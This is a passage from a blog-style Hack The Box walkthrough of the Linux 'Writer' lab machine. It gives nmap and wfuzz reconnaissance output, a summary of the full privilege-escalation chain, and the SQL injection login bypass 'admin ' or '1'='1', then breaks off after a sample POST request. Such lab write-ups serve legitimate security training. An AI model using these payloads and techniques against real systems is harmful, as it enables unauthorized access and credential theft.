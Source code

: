 ```yaml
---
layout: default
---
```


<center> 
    <big>Writer - HTB</big>
</center>

<center>
    <img src="https://pbs.twimg.com/media/E7Yb_WKXoAk4o3M?format=jpg&name=4096x4096">
</center>

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


*   Information
*   name: <p1> Writer </p1>
*   OS: <p1> Linux </p1>
*   Difficulty: <p1 style="color:red;">Medium</p1>
*   Points: <p1> 30 </p1>
*   Release: <p1 > 2ND AUGUST, 2021 </p1>
*   IP: 10.10.11.101
*  https://app.hackthebox.eu/machines/Writer

## Summary
- Reading files and logging into the system via SQL injection.
- Read source code to find command injection vulnerability and get web shell.
- Read web path to discover configuration files. Read Mysql account secret login to get hash.
- Use hashcat to crack the hash to get the password and get the user.txt.
- Mapping port 25 out, execute a command via /etc/postfix/disclaimer to further elevate privileges and read john's id_rsa.
- Raise privileges via apt-get.


# <big>nmap</big> 

```js 
root@kali:~# nmap -sC -sV 10.10.11.101
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-24 12:22 CEST
Nmap scan report for writer.htb (10.10.11.101)
Host is up (0.61s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:20:b9:d0:52:1f:4e:10:3a:4a:93:7e:50:bc:b8:7d (RSA)
|   256 10:04:79:7a:29:74:db:28:f9:ff:af:68:df:f1:3f:34 (ECDSA)
|_  256 77:c4:86:9a:9f:33:4f:da:71:20:2c:e1:51:10:7e:8d (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 14m02s
|_nbstat: NetBIOS name: WRITER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-24T10:37:18
|_  start_date: N/A
```


<big> Pages redirecting to writer.thb so lets add to /etc/host<big>

```js
10.10.11.101    writer.htb
```
# <big>web</big> 

<img src="https://rustlang.rs/images/htb-writer/001.png">

<big> Nothing special on website so im gonna try to find something like login page </big>

```js
wfuzz -w /usr/share/dirb/wordlists/big.txt -u http://writer.htb/FUZZ --hc 404 -t 200
```
<img src="https://gcdn.pbrd.co/images/7zOTtLDkbG2N.png?o=1">

<big> Lets check administrative page </big>

<img src="https://rustlang.rs/images/htb-writer/003.png">

<big> Redirect us to admin login page, im gonna try something like admin:admin or admin:password. If doesn't work im gonna check for sql injection bypass </big> <br><big>So after 5-10 minutes i got in with **admin ' or '1'='1**
<img src="https://rustlang.rs/images/htb-writer/005.png">

<big> I check website and didnt find anything useful, checked burp and got something useful. </big> <br> On website you can post **story** and we can upload picture where we can do reverse shell through **burp**.<br>Post request looks like this.</br>

```js
POST /administrative HTTP/1.1
Host: writer.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://writer.htb
Connection: close
Referer: http://writer.htb/administrative
Upgrade-Insecure-Requests: 1
uname=demo&password=demo
```


## [Back to main page](./../..)
